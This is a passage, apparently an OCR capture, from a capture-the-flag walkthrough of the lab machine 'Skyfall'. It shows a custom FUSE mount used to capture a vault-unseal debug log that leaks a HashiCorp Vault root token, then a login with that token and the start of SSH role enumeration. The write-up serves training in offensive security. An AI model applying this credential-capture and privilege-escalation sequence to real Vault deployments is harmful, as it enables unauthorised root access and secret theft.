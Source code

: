 ```
usage: main MOUNTPOINT BACKING-PREFIX
askyy@skyfall:/dev/shm$ ./memfs out/ out
Mounted!
In another SSH window, I’ll go into that directory and run vault-unseal:

askyy@skyfall:/dev/shm/out$ cat debug.log 
2024/08/27 18:34:49 Initializing logger...
2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
2024/08/27 18:34:49 Security Risk!
2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Check interval: 5s
2024/08/27 18:34:49 Max checks: 5
2024/08/27 18:34:49 Establishing connection to Vault...
2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Checking seal status
2024/08/27 18:34:49 Vault sealed: false
It created debug.log, but because of where it’s stored, it’s owned by askyy:

askyy@skyfall:/dev/shm/out$ ls -l
total 4
-rw------- 1 askyy askyy 590 Aug 27 18:34 debug.log
Admin Vault
debug.log
The debug.log file leads the token being used with it:

askyy@skyfall:/dev/shm/out$ cat debug.log 
2024/08/27 18:34:49 Initializing logger...
2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
2024/08/27 18:34:49 Security Risk!
2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Check interval: 5s
2024/08/27 18:34:49 Max checks: 5
2024/08/27 18:34:49 Establishing connection to Vault...
2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/08/27 18:34:49 Checking seal status
2024/08/27 18:34:49 Vault sealed: false
Login
This token works via the vault login command:

oxdf@hacky$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.
                                               
Key                  Value                                                                    
---                  -----  
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG                
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu                                                 
token_duration       ∞                         
token_renewable      false
token_policies       ["root"]               
identity_policies    []       
policies             ["root"]
It has the root policy! That’s promising.

SSH
There’s a bunch of enumeration I could do, but I’ll remember there were two SSH roles:

oxdf@hacky$ vault list ssh/roles
Keys
```